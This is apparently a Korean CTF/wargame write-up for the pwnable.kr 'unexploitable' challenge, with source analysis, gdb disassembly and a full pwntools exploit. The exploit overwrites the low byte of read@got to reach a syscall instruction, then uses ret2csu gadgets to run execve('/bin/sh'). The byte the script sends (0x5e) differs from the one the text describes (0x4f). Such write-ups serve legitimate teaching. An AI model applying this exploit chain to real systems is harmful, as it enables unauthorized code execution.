 ```yaml
---
layout: post
date: 2021-11-14
title: pwable.kr unexploitable write-up
tags: [ROP, pwnable, ]
categories: [wargame, pwnable.kr, ]
---
```


## 소스코드 분석


---


```c
#include <stdio.h>
void main(){
	// no brute forcing
	sleep(3);
	// exploit me
	int buf[4];
	read(0, buf, 1295);
}

```


코드는 간단하다. <br>
출력함수 없이 read 함수만 존재하고 bof가 터진다.<br><br>


## 취약점 분석


---


가젯이 많이 부족하다.<br>
쓸만한 가젯을 찾던 중에 syscall을 발견했고, csu 부분을 이용해서 execve를 실행시키면 될 거 같다.<br>
syscall은 read 함수의 got를 1byte 변조해서 사용했다.


```shell
pwndbg> disas read
Dump of assembler code for function __GI___libc_read:
   0x00007ffff7af2140 <+0>:	lea    rax,[rip+0x2e0891]        # 0x7ffff7dd29d8 <__libc_multiple_threads>
   0x00007ffff7af2147 <+7>:	mov    eax,DWORD PTR [rax]
   0x00007ffff7af2149 <+9>:	test   eax,eax
   0x00007ffff7af214b <+11>:	jne    0x7ffff7af2160 <__GI___libc_read+32>
   0x00007ffff7af214d <+13>:	xor    eax,eax
   0x00007ffff7af214f <+15>:	syscall

```


{: file='gdb'}


하위 1byte를 0x4f로 변조해줬다.<br>
<br>


사실 삽질을 굉장히 많이 했는데, 처음엔 sleep 함수의 got를 변조할 생각이었다.<br>
하지만 syscall의 주소가 sleep 함수의 got와 하위 1.5 byte가 달랐기 때문에 실패하였다.<br>


```shell
pwndbg> disas sleep
Dump of assembler code for function __sleep:
   0x00007ffff7ac6640 <+0>:	push   rbp
   0x00007ffff7ac6641 <+1>:	push   rbx
   0x00007ffff7ac6642 <+2>:	sub    rsp,0x28
   0x00007ffff7ac6646 <+6>:	mov    rbx,QWORD PTR [rip+0x30681b]        # 0x7ffff7dcce68
   0x00007ffff7ac664d <+13>:	mov    rax,QWORD PTR fs:0x28
   0x00007ffff7ac6656 <+22>:	mov    QWORD PTR [rsp+0x18],rax
   0x00007ffff7ac665b <+27>:	xor    eax,eax
   0x00007ffff7ac665d <+29>:	mov    eax,edi
   0x00007ffff7ac665f <+31>:	mov    rdi,rsp
   0x00007ffff7ac6662 <+34>:	mov    QWORD PTR [rsp+0x8],0x0
   0x00007ffff7ac666b <+43>:	mov    rsi,rdi
   0x00007ffff7ac666e <+46>:	mov    ebp,DWORD PTR fs:[rbx]
   0x00007ffff7ac6671 <+49>:	mov    QWORD PTR [rsp],rax
   0x00007ffff7ac6675 <+53>:	call   0x7ffff7ac6760 <__GI___nanosleep> # here

```


{: file='gdb'}


```shell
pwndbg> disas __GI___nanosleep
Dump of assembler code for function __GI___nanosleep:
   0x00007ffff7ac6760 <+0>:	lea    rax,[rip+0x30c271]        # 0x7ffff7dd29d8 <__libc_multiple_threads>
   0x00007ffff7ac6767 <+7>:	mov    eax,DWORD PTR [rax]
   0x00007ffff7ac6769 <+9>:	test   eax,eax
   0x00007ffff7ac676b <+11>:	jne    0x7ffff7ac6780 <__GI___nanosleep+32>
   0x00007ffff7ac676d <+13>:	mov    eax,0x23
   0x00007ffff7ac6772 <+18>:	syscall # here

```


{: file='gdb'}


때문에 read 함수의 syscall을 사용하기로 했다.
<br><br>
일단 read 함수를 통해서 bss 영역에 /bin/sh 문자열을 써주었고, 다시 read 함수를 사용해서 read@got를 syscall로 변조해줬다. <br>
하위 1byte를 변조했기 때문에 rax는 1로 세팅이 되어있었고, 덕분에 write 함수를 사용할 수 있었다. <br>
아무 곳에서 execve의 syscall number만큼 읽어들이면 rax가 그 숫자로 맞춰지기 때문에 rdi에 아까 써둔 문자열이 위치한 bss 영역의 주소를 넣어주면 쉘을 실행시킬 수 있다. <br>


<br>


## 익스플로잇


---


```python
#unexploitable.py
from pwn import *

s = ssh(user='unexploitable',host='pwnable.kr',port=2222,password='guest')
p = s.process("./unexploitable")

# p = process('./unexploitable')

e = ELF('./unexploitable')
bss = e.bss()

read_plt = e.plt['read']
read_got = e.got['read']

csu_init = p64(0x00000000004005e6)
csu_call = p64(0x00000000004005d0)

payload = 'A' * 24

payload += csu_init
payload += 'A' * 8
payload += p64(0)
payload += p64(1)
payload += p64(read_got)
payload += p64(0)
payload += p64(bss)
payload += p64(0x8)
payload += csu_call

payload += 'A' * 0x38

payload += csu_init
payload += 'A' * 8
payload += p64(0)
payload += p64(1)
payload += p64(read_got)
payload += p64(0)
payload += p64(read_got)
payload += p64(1)
payload += csu_call

payload += 'A' * 0x38

payload += csu_init
payload += 'A' * 8
payload += p64(0)
payload += p64(1)
payload += p64(read_got)
payload += p64(1)
payload += p64(read_got)
payload += p64(0x3b)
payload += csu_call

payload += 'A' * 0x38

payload += csu_init
payload += 'A' * 8
payload += p64(0)
payload += p64(1)
payload += p64(read_got)
payload += p64(bss)
payload += p64(0)
payload += p64(0)
payload += csu_call

p.send(payload)
sleep(3)
p.send('/bin/sh\\x00')
sleep(3)
p.send('\\x5e\\x00')

p.interactive()

```


<br>


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/db8d1d99-195e-4f89-8fd8-1fc58a1c83ef/1.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20230619%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20230619T181441Z&X-Amz-Expires=3600&X-Amz-Signature=514251fee106202d9a4d1e861b1f8f859a9767b83fb7bfdc85b9dfd8787a4704&X-Amz-SignedHeaders=host&x-id=GetObject)


쉘을 획득했다.

